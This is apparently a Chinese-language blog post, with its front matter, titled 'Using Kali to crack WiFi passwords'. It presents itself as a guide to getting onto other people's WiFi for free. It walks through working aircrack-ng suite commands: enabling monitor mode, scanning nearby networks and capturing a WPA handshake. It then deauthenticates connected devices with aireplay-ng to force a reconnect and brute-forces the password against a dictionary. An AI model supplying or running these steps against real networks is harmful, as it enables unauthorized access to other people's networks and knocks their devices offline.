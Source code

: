 ```yaml
---
title: 使用Kali破解Wifi密码
date: 2022-01-05 15:29:33
tags: [Kali, 破解]
keywords: kali,wifi,破解
categories:
- kali
image: https://yvling-blog-image-1257337367.cos.ap-shanghai.myqcloud.com/%E5%8D%9A%E5%AE%A2/%E4%BD%BF%E7%94%A8Kali%E7%A0%B4%E8%A7%A3Wifi%E5%AF%86%E7%A0%81/kali.jpg
top: 0

---
```


教你用kali免费蹭网。

<!-- more -->



1、开启网卡监听模式

```
airmon-ng start wlan0
```

​	（关闭网卡监听模式）

```
airmon-ng stop wlan0
```



2、查看网卡是否成功开启监听模式

```
ifconfig		//wlan0后有mon即为开启成功，此时网卡处于监听模式
```



3、扫描wifi

```
airodump-ng wlan0mon		//扫描结束后ctrl+c结束进程
```



4、抓包

BSSID为wifi的MAC地址

PWR为信号强弱程度，数值越小信号越强

DATA为数据量，越大使用的人就越多

CH为信道频率（频道）

ESSID为wifi的名称

```
airodump-ng --bssid BSSID -c CH -w 抓包存储的路径 wlan0mon
//BSSID为wifi的MAC地址
//CH为信道频率
//路径后要加文件名
```



5、迫使对方连接的设备下线重连，便于抓包

在扫描wifi的同时新建一个终端：

```
aireplay-ng -0 0 STATION -a BSSID wlan0mon
//STATION为连接wifi的设备MAC地址
//BSSID为wifi的MAC地址
```

当扫描wifi的界面出现WPA handshake时表示抓包成功，这时停止扫描和发送数据



6、爆破解码

将密码字典和抓到的包放到同一目录便于操作，主要使用抓到的握手包（cap包）解码

```
aircrack-ng -w 密码字典路径 握手包路径
```

顺利的话能爆破出密码。